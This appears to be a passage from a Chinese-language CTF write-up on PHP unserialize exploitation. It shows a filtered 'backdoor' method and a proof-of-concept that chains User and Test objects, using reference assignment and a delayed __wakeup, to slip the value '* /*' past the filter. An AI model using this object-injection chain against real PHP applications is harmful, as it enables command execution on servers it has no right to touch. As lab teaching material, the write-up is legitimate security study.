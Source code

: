 ```php
class Test
{
    public $value;

    public function __destruct(){
        chdir('./upload');
        $this->backdoor();
    }
    public function __wakeup(){
        $this->value = "Don't make dream.Wake up plz!";
    }
......
    public function backdoor(){
        if(preg_match('/[A-Za-z0-9?$@]+/', $this->value)){
            $this->value = 'nono~';
        }
        var_dump($this->value);
    }

}
```

Test 类中的 \_\_wakeup 会对 value 进行污染导致无法执行指定命令, 但是在了解了上面的 demo 之后我们可以让 User 类的 \_\_wakeup 延后执行, 并将 value 的引用赋给 username, 最终利用 `$_SESSION['username']` 来间接赋值

```php
<?php

class User
{
    public $username;
    public function __wakeup(){
        $cklen = strlen($_SESSION['username']);
        if ($cklen != 0 and $cklen <= 6) {
            $this->username = $_SESSION['username'];
        }
    }
    public function __destruct(){
        if ($this->username == '') {
            session_destroy();
        }
    }

}

class Test
{
    public $value;
    public function __wakeup()
    {
        $this->value = "Don't make dream.Wake up plz!";
    }
    public function __destruct()
    {
        echo $this->value;
    }
}

$_SESSION['username'] = '* /*';

$test = new Test();
$user = new User();
$user->a = $test;
$user->username = &$test->value;
```